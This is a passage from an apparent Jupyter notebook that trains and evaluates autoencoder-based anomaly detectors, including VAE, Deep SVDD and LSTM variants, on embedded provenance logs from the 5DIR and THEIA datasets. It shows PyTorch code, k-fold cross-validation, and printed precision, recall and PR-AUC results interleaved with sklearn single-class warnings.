        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. Load the saved weights
    weight_filename = f"{performer}_{context}_gte_large_{model_name.replace(' ', '')}.pth"
    weight_path = os.path.join(MODEL_SAVE_DIR, weight_filename)
    
    if not os.path.exists(weight_path):
        return None # Skip if weights don't exist
        
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1395 | PR-AUC: 0.0522
    -> Sparse Done! F1: 0.1026 | PR-AUC: 0.0352
    -> Deep SVDD Done! F1: 0.1667 | PR-AUC: 0.0844
    -> DAE Done! F1: 0.125 | PR-AUC: 0.0409
    -> VAE Done! F1: 0.0741 | PR-AUC: 0.0227
    -> Beta-VAE Done! F1: 0.1154 | PR-AUC: 0.0361
    -> GMVAE Done! F1: 0.093 | PR-AUC: 0.0376
    -> Attention AE Done! F1: 0.1081 | PR-AUC: 0.0446
    -> LSTMAE Done! F1: 0.0976 | PR-AUC: 0.0391
    -> Robust Done! F1: 0.0889 | PR-AUC: 0.0358
    -> Contractive Done! F1: 0.1 | PR-AUC: 0.0354

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0774 | PR-AUC: 0.0278
    -> Sparse Done! F1: 0.093 | PR-AUC: 0.0317
    -> Deep SVDD Done! F1: 0.1389 | PR-AUC: 0.0403
    -> DAE Done! F1: 0.0941 | PR-AUC: 0.0318
    -> VAE Done! F1: 0.0444 | PR-AUC: 0.0125
    -> Beta-VAE Done! F1: 0.1017 | PR-AUC: 0.0317
    -> GMVAE D

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.7227 | PR-AUC: 0.8119
    -> Sparse Done! F1: 0.0372 | PR-AUC: 0.0108
    -> Deep SVDD Done! F1: 0.7847 | PR-AUC: 0.5702
    -> DAE Done! F1: 0.3805 | PR-AUC: 0.1654
    -> VAE Done! F1: 0.0296 | PR-AUC: 0.0086
    -> Beta-VAE Done! F1: 0.0262 | PR-AUC: 0.008
    -> GMVAE Done! F1: 0.627 | PR-AUC: 0.5397
    -> Attention AE Done! F1: 0.0387 | PR-AUC: 0.0112
    -> LSTMAE Done! F1: 0.6273 | PR-AUC: 0.5771
    -> Robust Done! F1: 0.6784 | PR-AUC: 0.7184
    -> Contractive Done! F1: 0.0388 | PR-AUC: 0.0111

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7321 | PR-AUC: 0.5854
    -> Sparse Done! F1: 0.0629 | PR-AUC: 0.0215
    -> Deep SVDD Done! F1: 0.1121 | PR-AUC: 0.052
    -> DAE Done! F1: 0.3831 | PR-AUC: 0.1871
    -> VAE Done! F1: 0.04

##### CV Train test Split...

In [26]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
import gc
from torch.utils.data import DataLoader, TensorDataset
from sklearn.model_selection import KFold
from sklearn.metrics import (
    roc_auc_score, average_precision_score, precision_score, 
    recall_score, f1_score, accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# [UPDATED] Paths pointed to BGE-M3 directories
BASE_DIR = "final_train_test_split_bge_m3"
RESULTS_FILE = "results_kfold_all_metrics_bge_m3.csv"
MODEL_SAVE_DIR = "saved_weights_bge_m3_kfold"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL UPDATE] BGE-M3 outputs 1024 dimensions (not 768)
INPUT_DIM = 1024    
N_SPLITS = 5        # 5-Fold Cross Validation

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  
SPARSE_REG = 1e-4   
BETA = 4.0          
CAE_LAMBDA = 1e-4   

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()} with {N_SPLITS}-Fold CV")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) 
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

# ==========================================
# 3. SAFE ERROR CALCULATION HELPER
# ==========================================
def get_model_errors(model, data_array, model_name, center=None, batch_size=1024):
    model.eval()
    all_errors = []
    with torch.no_grad():
        for i in range(0, len(data_array), batch_size):
            batch_tensor = torch.FloatTensor(data_array[i:i+batch_size]).to(DEVICE)
            
            if model_name == 'Deep SVDD':
                z = model(batch_tensor)
                err = torch.sum((z - center) ** 2, dim=1)
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, _, _ = model(batch_tensor)
                err = torch.mean((batch_tensor - recon) ** 2, dim=1)
            elif model_name == 'GMVAE':
                recon, _, _, _ = model(batch_tensor)
                err = torch.mean((batch_tensor - recon) ** 2, dim=1)
            elif model_name == 'Robust':
                recon = model(batch_tensor)
                err = torch.mean(torch.abs(batch_tensor - recon), dim=1)
            else:
                recon = model(batch_tensor)
                err = torch.mean((batch_tensor - recon) ** 2, dim=1)
                
            all_errors.append(err.cpu().numpy())
            
    return np.concatenate(all_errors)

# ==========================================
# 4. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context, fold):
    
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS PER FOLD ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}_Fold{fold}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION & ALL METRICS ---
    train_errors = get_model_errors(model, X_train, model_name, center if 'center' in locals() else None)
    test_errors = get_model_errors(model, X_test, model_name, center if 'center' in locals() else None)

    try:
        auc_roc = roc_auc_score(y_test, test_errors)
        pr_auc = average_precision_score(y_test, test_errors)
    except:
        auc_roc, pr_auc = 0.0, 0.0

    threshold = np.percentile(train_errors, 99.0)
    y_pred = (test_errors > threshold).astype(int)

    precision = precision_score(y_test, y_pred, zero_division=0)
    recall = recall_score(y_test, y_pred, zero_division=0)
    f1 = f1_score(y_test, y_pred, zero_division=0)
    accuracy = accuracy_score(y_test, y_pred)

    del model, optimizer, train_loader
    gc.collect()
    torch.cuda.empty_cache()

    return {
        "Fold": fold,
        "Model": model_name,
        "AUC-ROC": round(auc_roc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 5. EXECUTION WITH K-FOLD
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing. Please ensure your BGE-M3 data is in this folder.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train_orig = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test_orig = pkg['X']
                    y_test_orig = np.array(pkg['y'])
                
                # Merge all normal data and extract anomaly data
                X_test_normal = X_test_orig[y_test_orig == 0]
                X_anomaly_all = X_test_orig[y_test_orig == 1]
                X_normal_all = np.vstack([X_train_orig, X_test_normal])
                
                print(f"  Total Normal Logs: {len(X_normal_all)} | Total Anomaly Logs: {len(X_anomaly_all)}")

                kf = KFold(n_splits=N_SPLITS, shuffle=True, random_state=42)
                
                for fold, (train_idx, test_idx) in enumerate(kf.split(X_normal_all), start=1):
                    print(f"\n  --- Fold {fold}/{N_SPLITS} ---")
                    
                    X_train_fold = X_normal_all[train_idx]
                    X_test_normal_fold = X_normal_all[test_idx]
                    
                    X_test_fold = np.vstack([X_test_normal_fold, X_anomaly_all])
                    y_test_fold = np.array([0] * len(X_test_normal_fold) + [1] * len(X_anomaly_all))
                    
                    for m_name in models_to_run:
                        print(f"    -> Training {m_name}...", end=" ")
                        res = train_model(m_name, X_train_fold, X_test_fold, y_test_fold, performer, context, fold)
                        
                        res['Performer'] = performer
                        res['Context'] = context
                        all_results.append(res)
                        print(f"Done. PR-AUC: {res['PR-AUC']} | F1: {res['F1-Score']}")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 6. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    df_res = df_res[['Performer', 'Context', 'Model', 'Fold', 'AUC-ROC', 'PR-AUC', 'Precision', 'Recall', 'F1-Score', 'Accuracy', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SAVED")
    print("="*60)
    print(f"Saved metrics to {RESULTS_FILE}")
else:
    print("No results to save.")

Running on Device: CUDA with 5-Fold CV
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Total Normal Logs: 11142 | Total Anomaly Logs: 9

  --- Fold 1/5 ---
    -> Training Baseline... Done. PR-AUC: 0.0529 | F1: 0.15
    -> Training Sparse... Done. PR-AUC: 0.0312 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.096 | F1: 0.1702
    -> Training DAE... Done. PR-AUC: 0.0405 | F1: 0.0
    -> Training VAE... Done. PR-AUC: 0.0184 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.0336 | F1: 0.0
    -> Training GMVAE... Done. PR-AUC: 0.0314 | F1: 0.0
    -> Training Attention AE... Done. PR-AUC: 0.0457 | F1: 0.0
    -> Training LSTMAE... Done. PR-AUC: 0.0409 | F1: 0.0
    -> Training Robust... Done. PR-AUC: 0.0379 | F1: 0.0
    -> Training Contractive... Done. PR-AUC: 0.0332 | F1: 0.0

  --- Fold 2/5 ---
    -> Training Baseline... Done. PR-AUC: 0.0551 | F1: 0.1277
    -> Training Sparse... Done. PR-AUC: 0.0318 | F1: 0.0
    -> Training De

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 2/5 ---
    -> Training Baseline... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
